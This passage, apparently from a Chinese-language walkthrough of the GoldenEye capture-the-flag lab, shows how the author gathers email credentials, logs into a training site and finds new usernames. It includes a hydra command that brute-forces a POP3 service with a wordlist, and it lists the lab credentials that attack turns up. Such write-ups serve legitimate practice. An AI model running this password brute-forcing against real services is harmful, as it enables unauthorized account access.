 ```
Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.
```

看到第 2 封邮件中出现了用户名和密码 xenia:RCP90rulez!，还有一个新的系统，需要我们在/etc/hosts 中添加指向。

```
192.168.10.150  severnaya-station.com
```

然后进行登陆 http://severnaya-station.com/gnocertdir/login/index.php 四处查看，没有发现有用的东西，查看 My Profile -> Message 时，发现了一条信息：
http://severnaya-station.com/gnocertdir/message/index.php?user2=5

```
As a new Contractor to our GoldenEye training I welcome you. Once your account has been complete, more courses will appear on your dashboard. If you have any questions message me via email, not here.

My email username is...
doak

Thank you,
Cheers
```

看到了另外一个邮箱用户：doak ，但是没有密码，也没有发现其他有用信息，只能再次使用 hydra 尝试爆破：

```
hydra -t 20 -l doak -P /usr/share/wordlists/fasttrack.txt pop3://192.168.10.150:55007/
```

得到新的凭据：login: doak password: goat，使用此凭据，再次登陆 pop3 55007，获得了一封邮件信息：

```
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id 97DC24549D
	for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!
```
